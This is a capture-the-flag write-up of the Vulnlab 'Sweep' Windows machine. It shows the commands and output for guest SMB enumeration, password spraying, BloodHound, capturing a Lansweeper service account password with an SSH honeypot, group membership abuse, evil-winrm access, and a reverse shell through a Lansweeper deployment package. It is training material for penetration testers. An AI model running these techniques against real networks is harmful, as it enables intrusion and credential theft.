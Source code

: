 ```yaml
---
title: VL - Sweep
date: 2024-03-16
categories: [Vulnlab]
tags: [CTF, Windows]
pin: false
---
```


Sweep is a medium rated Windows Vulnlab machine created by Yeeb . The machine consist of getting access through weak credentials, abusing Lansweeper functionalities and abusing more Lansweeper functionalities.

## Enumeration

As usual we start with a quick NMAP scan:
```sh
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
81/tcp   open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp   open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Not valid before: 2021-11-21T09:22:27
|_Not valid after:  2121-12-21T09:22:27
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-29 20:02:00Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?
3259/tcp filtered epncdp2
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-29T20:03:05+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=inventory.sweep.vl
| Not valid before: 2024-02-07T19:09:42
|_Not valid after:  2024-08-08T19:09:42
| rdp-ntlm-info:
|   Target_Name: SWEEP
|   NetBIOS_Domain_Name: SWEEP
|   NetBIOS_Computer_Name: INVENTORY
|   DNS_Domain_Name: sweep.vl
|   DNS_Computer_Name: inventory.sweep.vl
|   DNS_Tree_Name: sweep.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-02-29T20:02:24+00:00
5357/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: INVENTORY; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can now use NetExec to enumerate smb shares and bruteforce the RIDs with the Guest user:

```sh
nxc smb 10.10.109.70 -u 'Guest' -p '' --shares --rid-brute
SMB         10.10.109.70    445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.109.70    445    INVENTORY        [+] sweep.vl\Guest:
SMB         10.10.109.70    445    INVENTORY        [*] Enumerated shares
SMB         10.10.109.70    445    INVENTORY        Share           Permissions     Remark
SMB         10.10.109.70    445    INVENTORY        -----           -----------     ------
SMB         10.10.109.70    445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.109.70    445    INVENTORY        C$                              Default share
SMB         10.10.109.70    445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.109.70    445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.109.70    445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.109.70    445    INVENTORY        NETLOGON                        Logon server share
SMB         10.10.109.70    445    INVENTORY        SYSVOL                          Logon server share
SMB         10.10.109.70    445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```
With this output we can make a user list and test for weak credentials like using the username as password or patterns like [company][year] or [season][year].

```sh
nxc smb 10.10.109.70 -u users.txt -p passwords.txt --shares --continue-on-success
SMB         10.10.109.70    445    INVENTORY        [+] sweep.vl\intern:[REDACTED]
```

With working credentials we can access Lansweeper and we can also run Bloodhound to get some more information about the environment:
```
bloodhound-python -d sweep.vl -c All -dc inventory.sweep.vl -ns 10.10.109.70 -u intern -p [REDACTED] --zip
```

One thing that stands out is the shortest path to DA which makes use of the svc_inventory_lnx user via:
- GenericAll on Lansweeper Admins
So when we get access to this user we can add our self to this group.

## Capturing Credentials
There are SSH credentials configured for the `svc_inventory_lnx` user and Windows credentials for the `svc_inventory_win`.
We can try capturing one of these with a SSH honeypot like [sshesame](https://github.com/jaksi/sshesame), there are many more but this one popped up first. The documentation is simple and straightforward, the only thing important to change is the sshesame.yaml file and make it listen to 0.0.0.0:22:

```sh
./sshesame --config sshesame.yaml 
INFO 2024/03/16 21:07:45 No host keys configured, using keys at "/home/bushidosan/.local/share/sshesame"
INFO 2024/03/16 21:07:45 Listening on [::]:22
WARNING 2024/03/16 21:09:24 Failed to accept connection: Failed to establish SSH server connection: EOF
WARNING 2024/03/16 21:09:28 Failed to accept connection: Failed to establish SSH server connection: ssh: disconnect, reason 11: Session closed
2024/03/16 21:09:28 [10.10.109.70:57075] authentication for user "svc_inventory_lnx" without credentials rejected
2024/03/16 21:09:29 [10.10.109.70:57075] authentication for user "svc_inventory_lnx" with password [REDACTED] accepted
2024/03/16 21:09:29 [10.10.109.70:57075] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
```

## Getting Access
With the credentials and the information gathered through bloodhound we can try adding our self to the Lansweeper Admins group:

```sh
net rpc group addmem "Lansweeper Admins" "svc_inventory_lnx" -U SWEEP/svc_inventory_lnx -S inventory.sweep.vl
```

This gives us both administrator rights over Lansweeper and a way to get into the server via WinRM:
```sh
evil-winrm -i <IP> -u 'svc_inventory_lnx' -p <Password>
```

## Even more 
One of the interesting features in Lansweeper is the `deployment package`, this allows an LanSweeper administrator to execute commands on remote systems. I added a simple Powershell reverse shell to it from revshells.com, it doesn't really matter as long as it is below 1000 characters. As stated earlier there is also a windows service account configured with credentials, we can create a new mapping and map it to our target and run the package to obtain SYSTEM.